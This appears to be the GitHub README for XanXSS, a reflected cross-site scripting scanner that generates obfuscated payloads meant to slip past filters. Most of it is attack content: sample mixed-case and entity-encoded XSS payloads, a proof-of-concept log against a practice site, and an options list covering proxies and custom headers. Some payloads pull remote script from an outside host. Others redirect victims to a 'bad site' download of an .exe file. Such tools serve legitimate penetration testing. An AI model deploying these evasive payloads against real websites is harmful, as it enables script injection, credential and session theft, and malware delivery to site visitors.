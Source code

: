 # XanXSS

XanXSS is a reflected XSS searching tool (DOM coming soon) that creates payloads based from templates. Unlike other XSS scanners that just run through a list of payloads. XanXSS tries to make the payload unidentifiable, for example: 

```bash
<xAnXSS</TitLE></STYLE><SVG/ONload='alERt(1);'/></XaNxSs</titLe></StYlE><SvG/ONlOAD='alerT(1);'/>
<ifrAmE&#13;Src=&#160;[2].Find(CoNfirm);=&#160;"JAVaScRIpT:proMpT(1))"javAscrIpt:/*--></scRIPt>
/>cLIcK&#13;Me!</b</TextaRea></TiTLE><BUTtON ONcLIck='aleRT(1);'/>XaNxss</TEXTaRea>
<iMG&#13;sRc=%0acONfIRM();=+'jAVASCRiPT:alerT("XSS");'</STYlE><Svg/onLoad='alErT((1));'/>
```

With XanXSS every payload is different. XanXSS works by running through the payloads until a specified number is found or a timer hits the max time, this prevents it from looping for to long. Some of the features included in XanXSS:

 - Ability to pass your own headers using `-H`
 - Ability to generate a polyglot script using `-P`
 - Ability to run behind a proxy using `-p`
 - And many more

# Proof of Concept

For this proof of concept we will use https://xss-game.appspot.com/level1/frame

```bash
admin@TBG-a0216:~/bin/python/xanxss$ python xanxss.py -u "http://xss-game.appspot.com/level1/frame?query=" -a 12 -t 12 -f 25 -v 

    ____  ___             ____  ___  _________ _________
    \   \/  /____    ____ \   \/  / /   _____//   _____/
     \     /\__  \  /    \ \     /  \_____  \ \_____  \ 
     /     \ / __ \|   |  \/     \  /        \/        \
    /___/\  (____  /___|  /___/\  \/_______  /_______  /
          \_/    \/     \/      \_/        \/        \/ 
Twitter->   @stay__salty
Github -->  ekultek         
Version---> v(0.1)


[info][16:37:34] using default payloads
[info][16:37:34] generating payloads
[info][16:37:34] running payloads through tampering procedures
[info][16:37:34] payloads tampered successfully
[info][16:37:34] running payloads
[debug][16:37:34] running payload '<xanxsSjAvasCRipT:/*--></SCripT></xanXsS</Style><svG/Onload='ALERt((1);'/>'
[debug][16:37:34] running payload '<SCRipt&#13;Src=+(pRomPt))``;=%09'HtTP://xsS.ROCKs/xss.jS'jaVAsCRIpt:/*--></ScrIPt></Script</tiTLe></stYLe><Svg/OnLOaD='aLeRT(1);'/>'
[debug][16:37:34] running payload '<xanxssjAvASCRIpT:/*--></ScRiPt></XANxsS</tiTle></STyle><SvG/OnLOAD\u006c='aLErt(1);'/>'
[debug][16:37:34] running payload '<iMG/+/sRc=%0dA=%0DPrOMpt,a(();=%0a'JaVaSCripT:aLeRt("XSS"));'javasCRiPT:/*--></sCRipt>'
[debug][16:37:34] running payload '<SCRIPT/*/srC=&#34;&#62;A=%0aprompT,A(();=%09'htTp://xSs.rockS/XSs.Js'</TeXTARea></TiTLE><buTTOn oncLiCK='ALeRT(1);'/>XAnXsS</tEXTARea></scrIPTjaVaSCRipT:/*--></sCRIPt>'
[debug][16:37:35] running payload '<IMg&#160;SRC=%09CONFIRM(());=%0a'JavAscrIpt:aLERt("XSS");'JavasCrIpT:/*--></SCripT>'
[debug][16:37:35] running payload '<XAnXSS</STYlE><SVg/OnLOAd='aLeRT(1));'/></xAnXsSjaVasCRIpt:/*--></scrIpt>'
[debug][16:37:35] running payload '<sCRIPt`Src=+cOnFiRm());=+'htTP://xSs.rOCKs/xsS.js'</TextaREA></tiTle><ButTon ONCliCK='AlErt(1);'/>xanxSS</TeXTarEa></SCriPtJAvaScrIPt:/*--></SCrIpt>'
[debug][16:37:35] running payload '<scRIpT</title></stYle><sVG/onlOAD='AlERT(1));'/>aLert((1));</scRipT</titLE></STyLe><sVG/oNlOad='aLeRt((1));'/>'
[debug][16:37:35] running payload '<SC\u009lripT/*/SrC=%0aConFirm();=&#160;'hTTP://xsS.ROcks/xSs.js'</TITle></StYlE><svg/ONLOad='ALerT(1);'/></ScriPT</StyLe><svG/OnLOAd='ALert((1);'/>'
[debug][16:37:35] running payload '<B//ONMOuSEOver=&#34;&#62;ConFIrm(();=&#160;wIndow.LoCATIoN=&#160\u005g;(pRoMPT))``;=%0A'htTpS://MyBaDSitE.cOM/dOwnLoAd.phP?iTem=+(pRomPt)``;=%0apuMPEDuPkICKs.exE'jaVAScrIpt:/*--></sCrIPt>ClIcK/*/mE!</b</tiTLe></sTyLE><sVG/OnLoAd='aLert(1));'/>'
[debug][16:37:35] running payload '<IfRA\u007pme%00SrC=%0AcOnFIRm(());=%0a"jaVAScriPT:pRoMPT(1)"jAVaScRIpt:/*--></SCriPt>'
[debug][16:37:36] running payload '<IframE//SrC=&#34;&#62;CONfIRM());=%0d"jAvAscriPT:pROMpT(1)"</TeXtarEa></TiTLe><BUttoN oNcliCK='aLERt((1));'/>XanXss</texTAReA>'
[debug][16:37:36] running payload '<iMG/+/SRc=%09[3].FInd(COnFIRm));=&#34;&#62;'javAscriPt:A\u004pLerT("XSS");'JavaSCriPt:/*--></sCripT>'
[debug][16:37:36] running payload '<imG&#160;SRc=%0d[2].FinD(cOnFiRm));=&#160;'JaVaScRipt:ALERt("XSS"));'</styLe><SVg/oNLoad='ALErT(1));'/>'
[debug][16:37:36] running payload '<script</tITLE></style><SVG/onLOAD='alerT(1);'/>AleRt(1);</ScRIpTjAvASCrIPT:/*--></scRIPt>'
[debug][16:37:36] running payload '<XaNxSs</tITle></sTYlE><SVg/ONload='aLERT((1);'/></xANxsS</stYLE><Svg/OnlOAD='AleRt(1);'/>'
[debug][16:37:36] running payload '<b//ONmOUSEoVEr=%0D[8].fInd(coNfIrM);=%09WinDoW.location=%0A(COnfiRm)(();=&#160;'htTPS://MYBadsite.cOM/DoWNlOaD.php?ITEm=+COnFIrM();=+puMPEDupKickS.ExE'</styLe><sVG/OnLOAd='alERt((1);'/>CLick%00Me!</b</sTYlE><SVG/onloAD='AlERt(1);'/>'
[debug][16:37:37] running payload '<scriPT</styLE><SvG/ONloaD='aLERT(1);'/>ALeRt(1);</SCrIPt</tiTLe></STYlE><sVG/OnloAd='aLeRT(1\u009x);'/>'
[debug][16:37:37] running payload '<iFRamE%00srC=&#34;&#62;[7].FInD(cOnFiRm);=%0A"javAsCRipT:prompt(1))"</tITlE\u009e></sTyle><svg/oNLOad='alert((1);'/>'
[debug][16:37:37] running payload '<b/*/OnmOusEOver=&#160;A=%0apROMpt,A();=+wINdOW.LOCAtIon=&#34;&#62;co\U006EfiR\u006\u003id();=%09'HTtPS://MYBAdsiTE.com/doWNload.php?itEm=+((CoNfIrm)();=&#34;&#62;puMpedUPKickS.eXe'</teXtaREa></tiTLe><BUTTON oNclIck='aLeRT((1);'/>XanXsS</texTAREA>cLICk/*/Me!</B</StylE><SVG/ONloAd='aLERt((1));'/>'
[debug][16:37:37] running payload '<XANxSSJaVaScRIpt:/*--></SCripT></XAnXSs</TExtAREa></tITle\u008w><b\u009fuTTON oNclIck='Ale\u003rRT((1);'/>xANXss</TEXTArEA>'
[debug][16:37:37] running payload '<SCript/*/sRC=+A=&#160;prOmpt,A();=&#160;'HtTp://XsS.rocKS/xsS.JS'</stylE><sVG/onLoad='AlErT((1);'/></SCriptjAvaScriPt:/*--></ScrIpt>'
[debug][16:37:37] running payload '<ImG&#13;SRc=&#34;&#62;Co\U006efIr\u006D();=%0a\u007u'javAsCript:AlerT(("XSS");'</titlE></StYLe><svg/onloAD='alERt(1);'/>'
[debug][16:37:38] running payload '<B/*/ONmouSeOvEr=%0Aa=&#160;prOmpT,A();=%09WIndOw.LOCAtION=%0Aa=%09prompt,a();=%0A'hTTps://MYBadsITe.COM/DOWNLOAD.PHp?ITeM=&#160;cO\u006Efir\u006D());=%0dPumPeduPkicks.EXE'</tITlE></StyLE><svg/OnlOAD='aLerT((1));'/>clIcK&#13;mE!</bJavASCript:/*--></sCrIPT>'
[warning][16:37:48] times up dumping found
[info][16:37:48] working payloads:
--------------------------------------------------
  ~~> <xanxssjAvASCRIpT:/*--></ScRiPt></XANxsS</tiTle></STyle><SvG/OnLOAD\u006c='aLErt(1);'/>
  ~~> <SCRipt&#13;Src=+(pRomPt))``;=%09'HtTP://xsS.ROCKs/xss.jS'jaVAsCRIpt:/*--></ScrIPt></Script</tiTLe></stYLe><Svg/OnLOaD='aLeRT(1);'/>
  ~~> <xanxsSjAvasCRipT:/*--></SCripT></xanXsS</Style><svG/Onload='ALERt((1);'/>
--------------------------------------------------
[info][16:37:48] found a total of 3 working payloads
admin@TBG-a0216:~/bin/python/xanxss$ 
```

Now lets check those scripts in the HTML of the website:

Payload:```<xanxssjAvASCRIpT:/*--></ScRiPt></XANxsS</tiTle></STyle><SvG/OnLOAD\u006c='aLErt(1);'/>```
![xanxsspoc1](https://user-images.githubusercontent.com/14183473/48165682-f1dede00-e2ab-11e8-8c33-4cd8d909b760.png)

Payload: ```<SCRipt&#13;Src=+(pRomPt))``;=%09'HtTP://xsS.ROCKs/xss.jS'jaVAsCRIpt:/*--></ScrIPt></Script</tiTLe></stYLe><Svg/OnLOaD='aLeRT(1);'/>```
![xanxsspoc2](https://user-images.githubusercontent.com/14183473/48165747-25216d00-e2ac-11e8-8d2f-8f6eed88f7b8.png)

Payload: ```<xanxsSjAvasCRipT:/*--></SCripT></xanXsS</Style><svG/Onload='ALERt((1);'/>```
![xanxsspoc3](https://user-images.githubusercontent.com/14183473/48165767-38343d00-e2ac-11e8-8785-aa736183ab9d.png)


# Options

XanXSS comes complete with the ability to use a proxy, is compatible with proxychains, and allows you to add custom headers. I have provided a full list of options for your convience:

```bash
usage: xanxss.py [-h] [-u http://test.com/test.php?id=] [-a VERIFY]
                 [-f AMOUNT] [-t TIME] [-p SCRIPT, [SCRIPT, ...]]
                 [-F FILE-PATH] [-v] [--proxy TYPE://IP:PORT]
                 [-H HEADER=VALUE,HEADER:VALUE] [--throttle TIME secs] [-P]

optional arguments:
  -h, --help            show this help message and exit
  -u http://test.com/test.php?id=, --url http://test.com/test.php?id=
                        pass a URL to test for XSS vulnerabilities. it is
                        recommended that you use a URL with a query parameter
  -a VERIFY, --amount VERIFY
                        how many verifications steps to be taken, this will
                        determine how reliable the payload is. the more
                        verification steps the more reliable the payload will
                        be (*default=5)
  -f AMOUNT, --find AMOUNT
                        attempt to find this amount of working payloads,
                        specifying this does not guarantee you will find this
                        amount of working payloads (*default=25)
  -t TIME, --time TIME  amount of time in seconds to spend on testing, this
                        will be used as a timer for the verification
                        (*default=35s)
  -p SCRIPT, [SCRIPT, ...], --payloads SCRIPT, [SCRIPT, ...]
                        pass a comma separated list of your own payloads, must
                        contain at least 5 payloads
  -F FILE-PATH, --file FILE-PATH
                        pass a textual file containing payloads one per line,
                        must contain at least 5 payloads
  -v, --verbose         run in verbose mode and display more output
                        (*default=False)
  --proxy TYPE://IP:PORT
                        pass a proxy in the format type://ip:port
  -H HEADER=VALUE,HEADER:VALUE, --headers HEADER=VALUE,HEADER:VALUE
                        add your own custom headers to the request
                        (*default=connection,user-agent)
  --throttle TIME (secs)
                        throttle each request with a sleep time (*default=0)
  -P, --polyglot        generate a polyglot script to append to the end of the
                        running scripts, if there is XSS this should find it
                        (*default=False)
```

# Bugs

If you happen to find a bug or an issue please [create an issue](https://github.com/Ekultek/XanXSS/issues/new)